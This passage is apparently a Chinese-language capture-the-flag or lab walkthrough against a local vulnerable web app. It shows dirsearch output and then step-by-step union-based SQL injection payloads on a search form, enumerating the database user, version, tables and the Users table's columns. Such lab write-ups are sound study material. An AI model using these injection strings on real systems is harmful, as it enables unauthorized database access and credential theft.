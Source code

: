     
    - `Display All Records` 页面是所有用户的信息
    - `Search` 为搜索页面，存在搜索框
    - `Manage` 是登陆页面
2. 扫描网站目录
    
    ```python
    dirsearch -u 192.168.75.180 -x 403,404
    //
    [12:24:00] Starting:                                                                                                                                                                                              
    [12:24:22] 200 -    0B  - /config.php                                       
    [12:24:23] 301 -  314B  - /css  ->  http://192.168.75.180/css/              
    [12:24:25] 200 - 1001B  - /display.php                                      
    [12:24:31] 301 -  319B  - /includes  ->  http://192.168.75.180/includes/    
    [12:24:31] 200 -  408B  - /includes/
    [12:24:35] 302 -    0B  - /logout.php  ->  manage.php                       
    [12:24:36] 200 -  548B  - /manage.php                                       
    [12:24:48] 200 -  485B  - /search.php      
    ```
    
3. `Search` 为搜索页面，可能存在`SQL`注入，抓包修改`POST`参数
    - 尝试闭合
        
        ```python
        search=0' # 无结果
        search='or'1'='1 # 结果出来了，是Display All Records的结果
        ```
        
        确认存在注入
        
    - 继续注入（其实可以用`sqlmap`注入）
        
        ```python
        search='or'1'='1' order by 6 %23 # 字段数为6
        search='or'1'='0' union select 1,2,3,4,5,6 %23 # 显示位，全都可以显示
        search='or'1'='0' union select user(),2,3,version(),database(),6 %23 # dbuser@localhost ，10.3.17-MariaDB-0+deb10u1 ，Staff
        
        ```
        
    - 表名
        
        ```python
        search='or'1'='0' union select group_concat(table_name),2,3,4,5,6 from information_schema.tables where table_schema=database() %23
        ```
        
        `StaffDetails,Users` ，我们需要`Users` 表的数据
        
    - 列名
        
        ```python
        search='or'1'='0' union select group_concat(column_name),2,3,4,5,6 from information_schema.columns where table_schema=database() and table_name='Users' %23
        ```
        
        `UserID,Username,Password`
        